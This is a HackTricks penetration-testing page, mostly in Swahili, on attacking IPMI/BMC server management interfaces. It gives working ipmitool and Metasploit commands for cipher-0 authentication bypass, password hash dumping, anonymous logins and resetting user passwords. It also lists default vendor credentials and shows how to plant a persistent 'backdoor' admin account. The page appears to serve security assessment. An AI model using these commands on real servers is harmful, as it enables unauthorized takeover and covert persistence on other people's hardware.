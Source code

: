 # 623/UDP/TCP - IPMI

## 623/UDP/TCP - IPMI

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Deepen your expertise in **Mobile Security** with 8kSec Academy. Master iOS and Android security through our self-paced courses and get certified:

{% embed url="https://academy.8ksec.io/" %}


## Basic Information

### **Overview of IPMI**

**[Intelligent Platform Management Interface (IPMI)](https://www.thomas-krenn.com/en/wiki/IPMI_Basics)** inatoa njia iliyoandikwa kwa usimamizi wa mbali na ufuatiliaji wa mifumo ya kompyuta, bila kujali mfumo wa uendeshaji au hali ya nguvu. Teknolojia hii inawawezesha wasimamizi wa mifumo kusimamia mifumo kwa mbali, hata wakati zimezimwa au hazijibu, na ni muhimu hasa kwa:

- Mipangilio ya kuanzisha kabla ya OS
- Usimamizi wa kuzima nguvu
- Kupona kutoka kwa kushindwa kwa mfumo

IPMI ina uwezo wa kufuatilia joto, voltages, kasi za mashabiki, na vyanzo vya nguvu, pamoja na kutoa taarifa za hesabu, kupitia kumbukumbu za vifaa, na kutuma arifa kupitia SNMP. Muhimu kwa uendeshaji wake ni chanzo cha nguvu na muunganisho wa LAN.

Tangu ilipoanzishwa na Intel mwaka 1998, IPMI imeungwa mkono na wauzaji wengi, ikiongeza uwezo wa usimamizi wa mbali, hasa na msaada wa toleo la 2.0 kwa serial juu ya LAN. Vipengele muhimu ni pamoja na:

- **Baseboard Management Controller (BMC):** Kichakataji kikuu cha IPMI.
- **Communication Buses and Interfaces:** Kwa mawasiliano ya ndani na nje, ikiwa ni pamoja na ICMB, IPMB, na interfaces mbalimbali za muunganisho wa ndani na mtandao.
- **IPMI Memory:** Kwa kuhifadhi kumbukumbu na data.

![https://blog.rapid7.com/content/images/post-images/27966/IPMI-Block-Diagram.png#img-half-right](https://blog.rapid7.com/content/images/post-images/27966/IPMI-Block-Diagram.png#img-half-right)

**Default Port**: 623/UDP/TCP (Kawaida iko kwenye UDP lakini inaweza pia kuwa inafanya kazi kwenye TCP)

## Enumeration

### Discovery
```bash
nmap -n -p 623 10.0.0./24
nmap -n-sU -p 623 10.0.0./24
use  auxiliary/scanner/ipmi/ipmi_version
```
Unaweza **kubaini** **toleo** ukitumia:
```bash
use auxiliary/scanner/ipmi/ipmi_version
nmap -sU --script ipmi-version -p 623 10.10.10.10
```
### IPMI Vulnerabilities

Katika eneo la IPMI 2.0, kasoro kubwa ya usalama iligunduliwa na Dan Farmer, ikifunua udhaifu kupitia **cipher type 0**. Udhaifu huu, ulioandikwa kwa undani katika [utafiti wa Dan Farmer](http://fish2.com/ipmi/cipherzero.html), unaruhusu ufikiaji usioidhinishwa kwa kutumia nenosiri lolote ikiwa mtumiaji halali anashambuliwa. Udhaifu huu ulipatikana katika BMC mbalimbali kutoka kwa watengenezaji kama HP, Dell, na Supermicro, ukionyesha tatizo lililoenea katika utekelezaji wote wa IPMI 2.0.

### **IPMI Authentication Bypass via Cipher 0**

Ili kugundua kasoro hii, skana ya ziada ya Metasploit ifuatayo inaweza kutumika:
```bash
use auxiliary/scanner/ipmi/ipmi_cipher_zero
```
Utekelezaji wa kasoro hii unaweza kufanywa kwa kutumia `ipmitool`, kama inavyoonyeshwa hapa chini, ikiruhusu orodha na mabadiliko ya nywila za watumiaji:
```bash
apt-get install ipmitool # Installation command
ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user list # Lists users
ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user set password 2 abc123 # Changes password
```
### **IPMI 2.0 RAKP Uthibitisho wa Ujumbe wa Mbali wa Nywila ya Hashi**

Ushindikivu huu unaruhusu upatikanaji wa nywila za hash zilizotiwa chumvi (MD5 na SHA1) kwa jina lolote lililopo. Ili kujaribu ushindikivu huu, Metasploit inatoa moduli:
```bash
msf > use auxiliary/scanner/ipmi/ipmi_dumphashes
```
### **IPMI Anonymous Authentication**

Mipangilio ya default katika BMC nyingi inaruhusu ufikiaji wa "anonymous", unaojulikana kwa nywila na jina la mtumiaji zisizo na maudhui. Mipangilio hii inaweza kutumika kubadilisha nywila za akaunti za watumiaji waliopewa jina kwa kutumia `ipmitool`:
```bash
ipmitool -I lanplus -H 10.0.0.97 -U '' -P '' user list
ipmitool -I lanplus -H 10.0.0.97 -U '' -P '' user set password 2 newpassword
```
### **Supermicro IPMI Clear-text Passwords**

Chaguo muhimu katika muundo wa IPMI 2.0 kinahitaji uhifadhi wa nywila za wazi ndani ya BMCs kwa madhumuni ya uthibitishaji. Uhifadhi wa Supermicro wa nywila hizi katika maeneo kama `/nv/PSBlock` au `/nv/PSStore` unaleta wasiwasi mkubwa wa usalama:
```bash
cat /nv/PSBlock
```
### **Supermicro IPMI UPnP Uthibitisho wa Uthibitisho**

Kuongezwa kwa msikilizaji wa UPnP SSDP katika firmware ya IPMI ya Supermicro, hasa kwenye bandari ya UDP 1900, kunaingiza hatari kubwa ya usalama. Uthibitisho katika Intel SDK kwa ajili ya vifaa vya UPnP toleo 1.3.1, kama ilivyoelezwa na [kufichuliwa kwa Rapid7](https://blog.rapid7.com/2013/01/29/security-flaws-in-universal-plug-and-play-unplug-dont-play), kunawezesha ufikiaji wa mizizi kwa BMC:
```bash
msf> use exploit/multi/upnp/libupnp_ssdp_overflow
```
### Brute Force

**HP inabadilisha nenosiri la chaguo-msingi** kwa bidhaa yake ya **Integrated Lights Out (iLO)** wakati wa utengenezaji. Praktiki hii inapingana na wazalishaji wengine, ambao huwa wanatumia **akili za chaguo-msingi zisizobadilika**. Muhtasari wa majina ya watumiaji na nenosiri za chaguo-msingi kwa bidhaa mbalimbali unapatikana kama ifuatavyo:

- **HP Integrated Lights Out (iLO)** inatumia **mfuatano wa herufi 8 uliochaguliwa kwa bahati** kama nenosiri lake la chaguo-msingi, ikionyesha kiwango cha juu cha usalama.
- Bidhaa kama **iDRAC ya Dell, IMM ya IBM**, na **Meneja wa Usimamizi wa K remote wa Fujitsu** zinatumia nenosiri rahisi kubashiri kama "calvin", "PASSW0RD" (ikiwa na sifuri), na "admin" mtawalia.
- Vivyo hivyo, **Supermicro IPMI (2.0), Oracle/Sun ILOM**, na **ASUS iKVM BMC** pia zinatumia akili rahisi za chaguo-msingi, huku "ADMIN", "changeme", na "admin" zikihudumu kama nenosiri zao.

## Accessing the Host via BMC

Upatikanaji wa kiutawala kwa Msimamizi wa Bodi ya Msingi (BMC) unafungua njia mbalimbali za kufikia mfumo wa uendeshaji wa mwenyeji. Njia rahisi ni kutumia kazi ya Kivinjari, Video, Panya (KVM) ya BMC. Hii inaweza kufanywa kwa kuanzisha upya mwenyeji hadi kwenye shell ya mzizi kupitia GRUB (kwa kutumia `init=/bin/sh`) au kuanzisha kutoka kwa CD-ROM ya virtual iliyowekwa kama diski ya kuokoa. Njia hizi zinaruhusu kudhibiti moja kwa moja diski ya mwenyeji, ikiwa ni pamoja na kuingiza milango ya nyuma, kutoa data, au hatua zozote zinazohitajika kwa tathmini ya usalama. Hata hivyo, hii inahitaji kuanzisha upya mwenyeji, ambayo ni hasara kubwa. Bila kuanzisha upya, kufikia mwenyeji anayekimbia ni ngumu zaidi na inategemea usanidi wa mwenyeji. Ikiwa console ya kimwili au serial ya mwenyeji inaendelea kuingia, inaweza kuchukuliwa kwa urahisi kupitia kazi za KVM za BMC au serial-over-LAN (sol) kupitia `ipmitool`. Kuchunguza matumizi ya rasilimali za vifaa vilivyoshirikiwa, kama vile basi ya i2c na chip ya Super I/O, ni eneo linalohitaji uchunguzi zaidi.

## Introducing Backdoors into BMC from the Host

Baada ya kuathiri mwenyeji aliye na BMC, **kiolesura cha BMC cha ndani kinaweza kutumika kuingiza akaunti ya mtumiaji ya milango ya nyuma**, kuunda uwepo wa kudumu kwenye seva. Shambulio hili linahitaji uwepo wa **`ipmitool`** kwenye mwenyeji aliyeathiriwa na kuanzishwa kwa msaada wa dereva wa BMC. Amri zifuatazo zinaonyesha jinsi akaunti mpya ya mtumiaji inaweza kuingizwa kwenye BMC kwa kutumia kiolesura cha ndani cha mwenyeji, ambacho kinapita hitaji la uthibitisho. Mbinu hii inatumika kwa mifumo mbalimbali ya uendeshaji ikiwa ni pamoja na Linux, Windows, BSD, na hata DOS.
```bash
ipmitool user list
ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
2  ADMIN            true    false      false      Unknown (0x00)
3  root            true    false      false      Unknown (0x00)

ipmitool user set name 4 backdoor
ipmitool user set password 4 backdoor
ipmitool user priv 4 4
ipmitool user list
ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
2  ADMIN            true    false      false      Unknown (0x00)
3  root            true    false      false      Unknown (0x00)
4  backdoor        true    false      true      ADMINISTRATOR
```
## Shodan

* `port:623`

## References

* [https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/](https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/)


<figure><img src="/.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Panua ujuzi wako katika **Usalama wa Simu** na 8kSec Academy. Master usalama wa iOS na Android kupitia kozi zetu za kujifunza kwa kasi yako na upate cheti:

{% embed url="https://academy.8ksec.io/" %}


{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuatilie** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
